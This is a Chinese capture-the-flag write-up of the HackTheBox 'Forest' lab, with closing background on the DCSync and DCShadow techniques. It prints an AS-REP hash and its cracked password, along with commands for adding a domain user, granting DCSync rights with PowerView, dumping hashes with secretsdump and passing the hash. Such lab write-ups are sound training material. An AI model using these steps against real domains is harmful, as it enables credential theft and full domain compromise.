

# 域渗透实战之Forest - 先知社区

域渗透实战之Forest

- - -

# 信息收集

## 端口扫描

首先使用nmap去探测端口，发现存在大量windows端口。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120102613-2ccc198e-874c-1.png)

然后接着使用nmap去探测其版本信息。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120102622-31f6aef6-874c-1.png)

发现其存在5985端口，如果找到用户的凭据，我可能能够通过 WinRM 获得 shell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120102631-37d840c8-874c-1.png)

## DNS协议探测

发现htb.local是从forest.htb.local这个 DNS 服务器来解析的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120102640-3d34648e-874c-1.png)

并不能进行区域传输。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120102648-41f74e00-874c-1.png)

## TCP-445端口

使用smbmap不能列出，但使用smbclient在没有密码的情况下列出列表。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120102658-47a573ea-874c-1.png)

## RPC检测用户

使用空用户进行连接，接着来枚举用户。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120102711-4f9caf46-874c-1.png)

然后获取用户列表和用户组。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120102721-553fcbe0-874c-1.png)

接着进行查看群组成员。并找到了一个管理员用户。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120102732-5ba97cba-874c-1.png)

对于Kerberos服务，在不使用用户名的情况下测试了快速的No-Preauth成功。

# 漏洞利用

## AS-REP 烘焙

AS-REP 烘焙是一种允许为选择了“不需要 Kerberos 预身份验证”属性的用户检索密码哈希值的技术。事实上，如果用户没有启用 Kerberos 预身份验证，则可以为该用户请求 AS-REP，并且可以离线破解部分回复以恢复其明文密码。  
使用工具发现一个可烘培的用户：svc-alfresco  
通常使用AS-REP烘焙，您需要一个有效的用户名。当涉及到AD枚举时，有三个检查阶段：无凭证（匿名访问）、无密码的有效用户名，然后是有效凭证集（用户名+密码）。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120102744-63523830-874c-1.png)

## hashcat解密

```plain
$krb5asrep$23$svc-alfresco@HTB.LOCAL:93fbd77d6d4b54d331e1a665047d4dfb$8a3d3a98956b1c0a9cf886b8e073db94b6f9be12e2703f641a7d067c9525d45822f2c69308b46c169be00137b1837c894d9df7a2fc4a9c738a115eb8c8cbed813f4ca10ef1163260e0b3c324f55ece2377d8695e914f330e2224caadefe4953435a4f0b26138aab58b45bfdd46c5c62e38dfef85776d3323e2a5abc4179ebd2b57149c7e71042d76846e41668f2b8fe34448e6e3ee75bf4d5716f47997f279af20a1d415e9e1bf1517befef8722dcda7b055065685630bebf2119c04582b81f86d3f42466cfb0c419074b889cb9a8653e6ec74b137746034ceed687c6baeb01e2ae47906f5b7
```

发现一串hash，然后使用hashcat进行解密。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120102803-6eabea78-874c-1.png)

## WinRM测试

解密之后，使用WinRM来测试这些凭据是否可以使用

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120102811-730f9560-874c-1.png)

## 获取shell

发现其可以进行winrm获取shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120102819-782236e8-874c-1.png)

## 获取user.txt

接着获取user.txt

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120102831-7f4d7c02-874c-1.png)

# 内网信息收集

## 使用BloodHound 来 寻找路径。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120102844-8698af5e-874c-1.png)

看到我们的用户svc-alfresco是“Account Operators”组的成员，该组对“Exchange Windows Permissions”组拥有GenericAll权限。  
有了GenericAll权限，我们就拥有了目标对象的完全权限（将用户添加到组、重置用户密码等），并且我们可以滥用这个弱权限。  
此外，“Exchange Windows 权限”确实具有域 ( htb.local ) 上的WriteDACL权限。这意味着，如果我们创建一个用户并将其添加到“Exchange Windows Permissions”组，我们就可以向他授予DCSync访问权限并转储域控制器密码哈希值。  
因此，我们有四 (4) 件事要做：  
● 创建用户  
● 将其添加到“Exchange Windows 权限”组  
● 将其添加到“远程管理用户”组（具有远程访问权限）  
● 滥用 DACL 的弱权限来获取DCSync权限  
判断用户群组归属  
接着使用net user /domain进行收集域信息。  
获取所有域用户的列表：  
进行数据筛选，然后筛选出用户

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120102855-8d2ecfc4-874c-1.png)

## 枚举用户组。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120102904-92cb8c74-874c-1.png)

## 接着检查“本地组”

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120102915-99813000-874c-1.png)

## 查找嵌套组

使用net user svc-alfresco /domain去查询。  
发现当前用户是ServiceAccounts组的一部分;但嵌套了“服务帐户”组的多个组的成员。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120102925-9f5f204a-874c-1.png)

# 权限提升

## 上传PowerVIew.ps1工具

接着上传PowerView.ps1工具

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120102934-a4982e1c-874c-1.png)

使用dot-sourcing将脚本导入到当前会话中。  
加载PowerView后，首先要查找的是当前用户所属的所有组。  
Get-DomainGroup -MemberIdentity 'svc-alfresco' | select samaccountname

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120102959-b39d3b00-874c-1.png)

## 加入 Exchange Windows 权限组

发现存在特权用户。  
深入每个组，找到与每个组关联的所有嵌套组。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120103008-b8e721e8-874c-1.png)

找到了第一个嵌套组。发现“服务帐户”组中的所有用户也是“特权IT帐户”组的成员。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120103016-bd729e54-874c-1.png)

## DCSync 权限

```plain
● GenericAll – full rights to the object (add users to a group or reset user’s password)
GenericAll -对象的完全权限（将用户添加到组或重置用户的密码）
● GenericWrite – update object’s attributes (i.e logon script)
GenericWrite -更新对象的属性（即登录脚本）
● WriteOwner – change object owner to attacker controlled user take over the object
WriteOwner -将对象所有者更改为攻击者控制的用户接管对象
● WriteDACL – modify object’s ACEs and give attacker full control right over the object
WriteDACL -修改对象的ACE并给予攻击者对对象的完全控制权
● AllExtendedRights – ability to add user to a group or reset password
AllExtendedRights -将用户添加到组或重置密码的能力
● ForceChangePassword – ability to change user’s password
ForceChangePassword -更改用户密码的能力
● Self (Self-Membership) – ability to add yourself to a group
Self（Self-Membership）-将自己添加到组的能力
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120103029-c5334634-874c-1.png)

在Exchange受信任子系统组上滥用权限  
net user /add testz1 testz1@qq.com /domain  
net group /add 'Exchange Trusted Subsystem' testz1 /domain

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120103037-ca18cf70-874c-1.png)

```plain
1. $SecPassword = ConvertTo-SecureString 'testz1@qq.com' -AsPlainText -Force
2.$Cred = New-Object System.Management.Automation.PSCredential('HTB.local\testz1', $SecPassword)

3.Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity pwnt -Rights DCSync
4. 
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity testz1 -Rights DCSync
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120103052-d324b822-874c-1.png)

## 转储哈希

secretsdump.py svc-alfresco:s3rvice@10.10.10.161

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120103102-d8fc9d46-874c-1.png)

使用管理员散列执行传递散列攻击并获得权限

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120103118-e2747f88-874c-1.png)

## 获取root.txt

使用winrm进行获取shell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120103132-eb182770-874c-1.png)

# 总结

DCSync与DCshadow是域渗透中经常会用到的技术。

## DCSync 攻击

2015 年 8 月，Benjamin Delpy(神器 Mimikatz 的作者)和 Vincent Le Toux 发布了新版本的 Mimikatz，新增加了 DCSync 功能。模仿一个域控制器 DC，从真实的域控制器中请求获取数据，例如账号的口令散列值等数据。  
DCSync 之前，获取域的账号口令信息，需要登录域服务器，在域服务器上运行代码才可以获取。  
DCSync 的最大特点，在于不用登录域服务器，即可远程通过域数据同步复制的方式获得想要的用户口令信息。  
需要注意的是，DCSync 攻击的对象如果是 RODC 域控制器，则会失效，因为 RODC是不能参与复制同步数据

## DCSync攻击原理

DCSync 的原理非常清晰，利用域控制器之间的数据同步复制。  
● 发现网络中的目标域控制器;  
● 通过 DRS 服务的 GetNCChanges 接口发起数据同步请求，Directory Replication Service (DRS) Remote Protocol  
Samba wiki 关于 GetNCChanges 的描述包括:  
当一个 DC (客户端 DC)想从其他 DC (服务端 DC)获取数据时，客户端 DC 会向服务端 DC 发起一个 GetNCChanges 请求。回应的数据包括需要同步的数据。  
如果需要同步的数据比较多，则会重复上述过程。毕竟每次回应的数据有限。  
一个用户想发起 DCSync 攻击，必须获得以下任一用户的权限：  
● Administrators组内的用户  
● Domain Admins组内的用户  
● Enterprise Admins组内的用户  
● 域控制器的计算机帐户  
即：默认情况下域管理员组具有该权限。

## DCShadow 攻击

2018年1月24日，Benjamin Delpy(神器 Mimikatz 的作者)和 Vincent Le Toux 在 BlueHat IL 会议期间公布了针对域活动目录的一种新型攻击技术 DCShadow  
在具备域管理员权限条件下，攻击者可以创建伪造的域控制器，将预先设定的对象或对象属性复制到正在运行域服务器中。  
DCSync 从域服务器复制出东西，DCShadow 是将数据复制至域服务器。  
Luc Delsalle 对这种技术进行了验证和详细的描述，并就红蓝对抗中蓝队对抗此种攻击技术的缺陷和补救方法。  
从 DCShadow 目前展示的功能来看，主要只能用于红蓝对抗的隐蔽后门。但是 DCShadow 第一次澄清和实现了伪造一个 DC 的最小需求合集，这个贡献非常大。以 前很多攻击方法都卡在不能伪造域服务器，例如 MS15-011 和 MS15-014 等，有了 DCShadow 的基础，相信将来会有很多新的攻击方法。

## DCShadow 攻击流程

根据 Luc Delsalle 的描述，DCShadow 的攻击过程包括 3 个主要个步骤:  
1、在目标域的 AD 活动目录注册一个伪造的 DC 中;  
2、使伪造的 DC 被其他的 DC 认可，能够参与域复制 ;  
3、强制触发域复制，将指定的新对象或修改后的对象属r性同步复制到其他 DC 中;  
1.注册伪造的DC  
一台机器要想注册成为域中的一台 DC 服务器，需要在域的活动目录中注册一个 NTDS-DSA(nTDSDSA)类对象。注册的位置为 CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=adsec,DC=com  
2.注册的DC被其他DC认可，能够参与域复制  
3.发起域复制  
REF：  
[https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
